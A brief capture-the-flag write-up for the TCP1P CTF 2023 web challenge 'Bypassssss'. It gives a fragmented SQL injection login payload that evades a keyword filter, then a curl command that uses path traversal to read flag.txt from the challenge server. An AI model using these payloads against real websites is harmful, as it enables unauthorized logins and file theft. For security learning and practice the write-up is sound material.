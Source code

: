 # bypassssss

I used to have a website but unfortunately my website always gets hacked :(. 
But now I'm pretty sure they won't break into my website, right? right?!?!

## Solution

https://github.com/TCP1P/TCP1P-CTF-2023-Challenges/tree/main/Web/Bypassssss/writeup

fragmented sqli attack to login as admin:

user: `\`, password: `oorr/**trtrueue#`

ref: https://www.invicti.com/blog/web-security/fragmented-sql-injection-attacks/

Then local file inclusion:

```sh
curl http://ctf.tcp1p.com:45679/viewer.php?image=...//...//...//...//...//flag.txt
```
